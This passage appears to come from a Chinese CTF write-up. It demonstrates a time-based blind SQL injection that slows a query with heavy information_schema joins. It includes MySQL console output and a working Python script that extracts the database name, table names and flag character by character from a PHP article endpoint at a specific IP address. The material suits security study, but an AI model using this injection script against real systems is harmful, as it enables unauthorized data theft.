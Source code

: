 ```
mysql&gt; select * from content where id = 1 and 1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C);
+----+-------------------------------------+
| id | content                             |
+----+-------------------------------------+
|  1 | I think you may need sql injection! |
+----+-------------------------------------+
1 row in set (4.91 sec)

mysql&gt; select * from content where id = 1 and 0 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C);
Empty set (0.00 sec)

```

结果显而易见，为此我们就可以轻松写出盲注脚本

```
import requests

url = "http://52.80.179.198:8080/article.php?id=1' and %s and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C)%%23"
data = ""
for i in range(1,1000):
    for j in range(33,127):
        #payload = "(ascii(substr((database()),%s,1))=%s)"%(i,j) #post
        #payload = "(ascii(substr((select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()),%s,1))=%s)" % (i, j) #article,flags
        #payload = "(ascii(substr((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='flags'),%s,1))=%s)" % (i, j) #flag
        payload = "(ascii(substr((select flag from flags limit 1),%s,1))=%s)" % (i, j)
        payload_url = url%(payload)
        try:
            r = requests.get(url=payload_url,timeout=8)
        except:
            data +=chr(j)
            print data
            break
```

即可探测到数据库为

```
post
```

表为

```
article,flags
```

字段为

```
flag
```
